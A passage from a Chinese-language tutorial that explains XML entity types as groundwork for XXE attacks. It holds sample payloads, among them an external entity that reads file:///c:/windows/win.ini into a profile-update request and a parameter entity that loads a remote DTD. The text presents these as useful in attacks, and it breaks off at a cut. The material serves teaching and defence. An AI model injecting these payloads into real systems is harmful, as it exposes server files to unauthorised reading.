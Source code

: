 示例代码：
```
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```
我们使用 &xxe 对 上面定义的 xxe 实体进行了引用，到时候输出的时候 &xxe 就会被 "test" 替换。
重点来了：

重点一：

实体分为两种，内部实体和外部实体，上面我们举的例子就是内部实体，但是实体实际上可以从外部的 dtd 文件中引用，我们看下面的代码：

示例代码：
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
这样对引用资源所做的任何更改都会在文档中自动更新,非常方便（方便永远是安全的敌人）

当然，还有一种引用方式是使用 引用公用 DTD 的方法，语法如下：

><!DOCTYPE 根元素名称 PUBLIC “DTD标识名” “公用DTD的URI”>

这个在我们的攻击中也可以起到和 SYSTEM 一样的作用

重点二：

我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体），别晕。。

1.通用实体

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

示例代码：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```
2.参数实体：

(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

示例代码：
```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
抛转：
